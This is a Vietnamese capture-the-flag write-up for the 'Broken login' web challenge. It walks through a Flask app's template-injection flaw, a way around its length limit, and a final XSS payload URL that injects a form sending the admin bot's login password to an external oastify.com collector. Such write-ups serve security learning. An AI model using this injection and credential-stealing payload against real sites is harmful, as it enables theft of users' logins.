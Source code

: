 # 1. Broken login
Challenge cung cấp source code của file `app.py` và source code của admin bot.

File `app.py`:
```
from flask import Flask, make_response, request, escape, render_template_string

app = Flask(__name__)

fails = 0

indexPage = """...Login form..."""

@app.get("/")
def index():
    global fails
    custom_message = ""

    if "message" in request.args:
        if len(request.args["message"]) >= 25:
            return render_template_string(indexPage, fails=fails)
        
        custom_message = escape(request.args["message"])
    
    return render_template_string(indexPage % custom_message, fails=fails)


@app.post("/")
def login():
    global fails
    fails += 1
    return make_response("wrong username or password", 401)


if __name__ == "__main__":
    app.run("0.0.0.0")
```

Khảo sát website, ta thấy các chức năng:
+) Login form cho phép nhập username và password, sẽ hiển thị "Wrong username or password" cho dù thông tin đăng nhập có là gì chăng nữa.
+) Admin bot sẽ visit URL với domain hợp lệ, điền thông tin username và password vào các ô input rồi submit form. Trong đó, password chính là flag.

Như vậy, ta cần đọc request login do admin bot submit. Đọc file `app.py`, ta thấy tham số `message` được truyền vào template. Thử `/?message={{7*7}}` => có lỗ hổng SSTI, tuy nhiên giới hạn độ dài là 25 nên cần tìm cách bypass.

Để bypass length, ta dùng `/?message={{request.args.a|safe}}&a=abc`, khi đó tham số `a=abc` sẽ được hiển thị và không được escape cẩn thận => XSS => có thể tạo payload khiến Admin Bot execute script.

Payload cuối cùng như sau: `https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cform+action%3D%22https%3A%2F%2Fuywcqez17hkq9srcsampsedao1urig.oastify.com%2Ftest%22+method%3D%22POST%22%3E%3Cinput+type%3D%22text%22+name%3D%22username%22%3E%3Cinput+type%3D%22text%22+name%3D%22password%22%3E%3Cinput+type%3D%22submit%22+value%3D%22SUBMIT%22%3E%3C%2Fform%3E`
